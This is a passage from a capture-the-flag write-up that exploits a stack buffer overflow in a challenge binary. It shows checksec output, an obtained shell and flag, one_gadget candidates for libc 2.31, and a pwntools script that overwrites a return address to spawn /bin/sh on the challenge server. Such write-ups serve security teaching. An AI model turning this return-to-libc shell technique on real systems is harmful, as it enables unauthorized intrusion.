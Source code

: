 ```bash
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] libc.address: 0x7ffff7a6b000
[*] Switching to interactive mode
$ id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
$ cat flag.txt
CSR{back-in-1990-life-must-have-been-easier}
```

### one_gadget

Well, since we know the version of libc and it's address, we might as well see if `one_gadget` will work:

```bash
# one_gadget libc6_2.31-0ubuntu9_amd64.so
0xe6ce3 execve("/bin/sh", r10, r12)
constraints:
  [r10] == NULL || r10 == NULL
  [r12] == NULL || r12 == NULL

0xe6ce6 execve("/bin/sh", r10, rdx)
constraints:
  [r10] == NULL || r10 == NULL
  [rdx] == NULL || rdx == NULL

0xe6ce9 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
```

This, does not work:

```python
#!/usr/bin/env python3

from pwn import *

context.arch = 'x86_64'
context.log_level = 'INFO'
context.log_file = 'remote.log'
p = remote('chal.cybersecurityrumble.de', 1990)

libc = ELF('./libc6_2.31-0ubuntu9_amd64.so')
libc.symbols['gadget'] = [0xe6ce3, 0xe6ce6, 0xe6ce9][2]
libc.address = 0x7ffff7a6b000

payload  = 2 * b'A'
payload += (0x78 - len(payload)) * b'\0'
payload += p64(libc.sym.gadget)

p.sendlineafter('return.\n',payload)
p.interactive()
```

I tested all three.  However, this did work with an Ubuntu 18.04 container and libc 2.27.  So I'll leave it here and an example for the cases where it may work.
